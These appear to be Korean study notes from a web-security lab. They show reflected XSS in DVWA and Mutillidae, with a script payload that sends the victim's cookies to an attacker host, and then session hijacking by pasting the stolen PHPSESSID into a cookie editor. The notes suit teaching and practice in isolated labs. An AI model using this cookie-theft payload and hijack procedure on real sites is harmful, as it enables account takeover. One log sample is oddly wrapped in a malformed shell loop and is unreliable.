 # Wireshark
패킷 캡쳐 프로그램
<br><br><br><br>

# Reflected XSS
- 특정한 피해자를 대상으로 함
- 웹 서버에 XSS가 남는 것은 아님

실습 방법
1. 칼리에 웹서버를 설치 후 `tail -f` 로 로그파일 모니터링 시작
2. 윈도우에서 DVWA에 `admin:password` 로 로그인 한 뒤 XSS reflected에 아래 내용 입력
``` js
<script>document.location='http://192.168.60.128/cookie?'+document.cookie</script>
```
3. 윈도우에서 `404 Not Found` 가 보임과 동시에 칼리에서는 쿠키 정보로써 세션을 탈취한 아래 내용이 보임

$ for i in $(seq 1 10); do
    echo "192.168.60.1 - - [09/Apr/2021:17:18:51 +0900] "GET /cookie?security=low;%20PHPSESSID=48b916e85b42330e04852ff049d5f064 HTTP/1.1" 404 188 "http://192.168.60.129/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36""
done

4. 칼리에서 DVWA에 `pablo:letmein` 또는 `smithy:password` 로 로그인
5. Cookie Editor 에서 `PHPSESSID` 를 로그 파일의 내용으로 변경
6. 새로고침 하면 왼쪽 아래에 Username 이 admin 으로 된 것을 볼 수 있음
7. 윈도우에서 로그인 된 admin 을 로그아웃 한 후 칼리에서 새로고침 하면 세션이 끊겨서 같이 로그아웃 되는 것을 볼 수 있음
<br><br><br><br>

# Stored XSS
- 임의의 다수를 대상으로 함
- ‘Stored’ 단어처럼 웹서버에 XSS를 저장해서 남김
<br><br><br><br>

# OWASP Top 10
특정 해마다 웹 취약점 중에서 빈도가 많고 보안상 영향을 크게 주는 10가지를 선정해서 발표됨
이 취약점들을 `Mutillidae` 에서 실습 해볼 것임
<br><br><br><br>

# Mutillidae
시작하기에 앞서 `Metasplotiable2` 운영체제의 루트 권한으로 `/var/www/multillidae/config.inc` 파일을 아래 내용에 맞춰 수정하자.
``` php
$dbname = 'owasp10';
```
이로써 데이터베이스가 정상 연결되어 회원가입 등이 원할하게 사용된다.

아까와 같이 `XSS` 실습을 `Mutillidae` 에서 해보자.

1. 칼리에서 `tail -f /var/log/nginx/access.log` 로 로그 모니터링
2. 윈도우에서 `test:test` 회원가입 후 로그인
3. `OWASP Top 10` > `A2 (XSS)` > `Reflected` > `DNS Lookup` 에서 아까와 같은 스크립트를 실행하면 아래와 비슷한 로그 확인

`192.168.60.1 - - [09/Apr/2021:18:07:39 +0900] "GET /cookie?username=test;%20uid=17;%20PHPSESSID=2aae495d56711c667e53e602925e5876 HTTP/1.1" 404 188 "http://192.168.60.129/" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36"`

4. 쿠키 값으로 `username` / `uid` / `PHPSESSID` 가 보이는데 이것을 칼리 Cookie Editor 로 전부 입력 후 새로고침
5. 왼쪽 상단에 `Logged In User` 가 `test` 인것을 확인할 수 있음

만약 재현을 하려고 윈도우와 칼리에서 웹 브라우저 주소창 왼쪽의 좌물쇠 모양을 누르고 쿠키들을 모두 지워주면 된다.
